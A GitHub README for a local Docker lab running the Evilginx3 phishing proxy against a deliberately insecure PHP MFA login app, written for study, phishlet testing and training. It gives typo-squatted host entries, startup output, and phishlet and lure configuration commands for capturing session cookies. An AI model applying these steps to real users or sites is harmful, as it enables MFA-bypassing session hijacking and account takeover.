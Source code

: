 # Evilginx LAB on Docker
![back](evil-dock.jpg)

## Disclaimer
As you can imagine, this lab was created solely and exclusively for the purposes outlined below, and absolutely not for any malicious activity. Of course, I disclaim any responsibility for the improper use of the material contained in this repository.
The containers must absolutely not be exposed to a public network.

Please note that the comments inside files are in italian.

## Why?
I created a local lab to test Evilginx without the need to purchase a domain or presumably a VPS. It is useful for the following use cases:
1. Study and practice
2. Phishlet development and testing
3. Demonstrations and training activities

## Lab architecture
The lab consists of two Linux Docker containers. One hosts a simple PHP application that implements an MFA login process. The application is completely insecure, so it is strongly recommended not to expose it to the Internet and not to use the code in real-world applications. The second container hosts the Evilginx3 server.
You can find the static parameters to access the web application in <b>/app/login-config.php</b>

## Objective
Our goal is to intercept the authentication tokens (cookies) needed to hijack the user's session. It's very straightforward.

## Build & run the containers
Clone this repo and enter the directory, then execute:
	
	sudo docker-compose up --build -d --force-recreate --remove-orphans
	Building apache-php
	[+] Building 1.1s (11/11) FINISHED
	...
	Building evilginx2
	[+] Building 1.1s (10/10) FINISHED   
	...
	Creating targetsite.local ... done
	Creating targetsile.local ... done

	
Verify the containers:

	sudo docker ps
	CONTAINER ID   IMAGE                          COMMAND                  CREATED          STATUS          PORTS               NAMES
	636fa17740bf   evilginx_lab-main_apache-php   "apachectl -D FOREGR…"   41 minutes ago   Up 41 minutes   80/tcp, 443/tcp     targetsite.local
	2c595290c650   evilginx_lab-main_evilginx2    "/bin/bash -l"           41 minutes ago   Up 41 minutes   443/tcp, 8080/tcp   targetsile.local


## Mimic DNS
Modify hosts file in your host machine. Add the following lines:

	172.18.0.20 	targetsite.local login.targetsite.local
	172.18.0.10	targetsile.local login.targetsile.local
	
Visit the Legitimate site at: https://login.targetsite.local, with a bit of typo-squatting, the evil site will be https://login.targetsile.local


## Start evilnginx
Enter Evilginix container shell

	sudo docker exec -it /targetsile.local /bin/bash
Then start Evilginix in developer mode, in this mode, instead of trying to obtain LetsEncrypt SSL/TLS certificates, it will automatically generate self-signed certificates.
```bash  

root@e279e8098a4d:/evilginx2# ./evilginx2 -debug -developer

                                         
                                             ___________      __ __           __               
                                             \_   _____/__  _|__|  |    ____ |__| ____ ___  ___
                                              |    __)_\  \/ /  |  |   / __ \|  |/    \\  \/  /
                                              |        \\   /|  |  |__/ /_/  >  |   |  \>    < 
                                             /_______  / \_/ |__|____/\___  /|__|___|  /__/\_ \
                                                     \/              /_____/         \/      \/
                                         
                                                        - --  Community Edition  -- -
                                         
                                               by Kuba Gretzky (@mrgretzky)     version 3.3.0
                                         

[15:32:34] [inf] Evilginx Mastery Course: https://academy.breakdev.org/evilginx-mastery (learn how to create phishlets)
[15:32:34] [inf] debug output enabled
[15:32:34] [inf] loading phishlets from: /evilginx2/phishlets
[15:32:34] [inf] loading configuration from: /root/.evilginx
[15:32:34] [inf] blacklist mode set to: unauth
[15:32:34] [inf] unauthorized request redirection URL set to: https://www.youtube.com/watch?v=dQw4w9WgXcQ
[15:32:34] [inf] https port set to: 443
[15:32:34] [inf] dns port set to: 53
[15:32:34] [inf] autocert is now enabled
[15:32:34] [inf] blacklist: loaded 0 ip addresses and 0 ip masks
[15:32:34] [war] server domain not set! type: config domain <domain>
[15:32:34] [war] server external ip not set! type: config ipv4 external <external_ipv4_address>

+-------------------+-----------+-------------+-----------+-------------+
|     phishlet      |  status   | visibility  | hostname  | unauth_url  |
+-------------------+-----------+-------------+-----------+-------------+
| example           | disabled  | visible     |           |             |
| targetsite-local  | disabled  | visible     |           |             |
+-------------------+-----------+-------------+-----------+-------------+

:  

```
Note that I used the debug option too, since, I don't know why at the moment, the phishlet refues to capture the otp credential. Using the debug options permit to get the whole requests.
                                        
## Config Evilngnix container
```bash  
: config domain targetsile.local
: config ipv4 172.18.0.10
: phishlets hostname targetsite-local targetsile.local

: phishlets get-hosts targetsite-local 
	172.18.0.10 login.targetsile.local
	172.18.0.10 targetsile.local
	
: phishlets enable  targetsite-local 
: lures create targetsite-local 


+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+
| id  |     phishlet      | hostname  |   path     | redirector  | redirect_url  | paused  |  og   |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                                                                        
| 0   | targetsite-local  |           | /nBfYHrTO  |             |               |         | ----  |                                                                                                                                        
+-----+-------------------+-----------+------------+-------------+---------------+---------+-------+                                                                                

: lures get-url 0

	https://login.targetsile.local/nBfYHrTO
```
	
## Demo video
- I use Firefox to surf the lure's site
- I use Chromium to visit the legitimate site

Enjoy :)

## Useful Docker commands

### Stop and remove all the containers

	sudo docker stop $(docker ps -q) && sudo docker rm $(docker ps -a -q) && sudo docker image prune -a
	
### Access a shell's container

	sudo docker exec -it <container name> /bin/bash

### Check mounted volumes

	sudo docker inspect <container name> | grep Mounts -A 10
	

## Inspect logs

	sudo docker logs <container name>
	
### Show containers IP

	sudo docker ps -q | xargs -n 1 docker inspect -f '{{.Name}} - {{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'
	
	/targetsite.local - 172.18.0.20
	/targetsile.local - 172.18.0.10

